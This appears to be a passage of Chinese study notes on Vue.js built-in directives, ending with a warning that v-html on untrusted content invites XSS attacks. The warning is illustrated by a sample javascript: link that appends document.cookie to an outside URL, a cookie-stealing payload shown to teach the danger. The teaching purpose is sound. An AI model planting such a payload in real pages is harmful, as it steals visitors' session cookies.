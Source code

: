 ```vue
    </script>
```



### 内置指令

- v-bind

  - 单向绑定解析，可以简写为:

- v-model

  - 双向数据绑定

- v-for

  - 遍历数组/对象/字符串

- v-on

  - 绑定事件监听，可简写为@

- v-if

  - 条件渲染（动态控制节点**是否存在**）

- v-else

  - 条件渲染（动态控制节点**是否存在**）

- v-show

  - 条件渲染（动态控制节点**是否展示**）

- v-text

  - 向其所在的标签插入文本

  ```html
  <div v-text="name"></div>
  <!--相当于-->
  <div>{{name}}</div>
  ```

  - 与插值语法区别：v-text会替换节点中的内容，而{{xx}}不会

- v-html

  - 作用：向指定节点中渲染包含html结构的内容
  - 与插值语法的区别
    - （1）v-html会替换掉节点中所有内容，{{xx}}不会
    - （2）v-html可以识别html结构
  - 注意！v-html**安全性问题**
    - 在网站上动态渲染任意html是非常危险的，容易导致xss攻击
    - 一定要在可信内容上使用v-html，永远不要用在用户提交的内容上

  ```vue
  <div v-html='str'> </div>
  <script>
  data:{
      //这个a标签会将当前的cookie拼接到目标网址后面
      //目标网址就能获取当前页面的cookie
      str:'<a href=javascript:location.href="http://www.baidu.com"+document.cookie'>跳转</a>
  }
  </script>
  ```
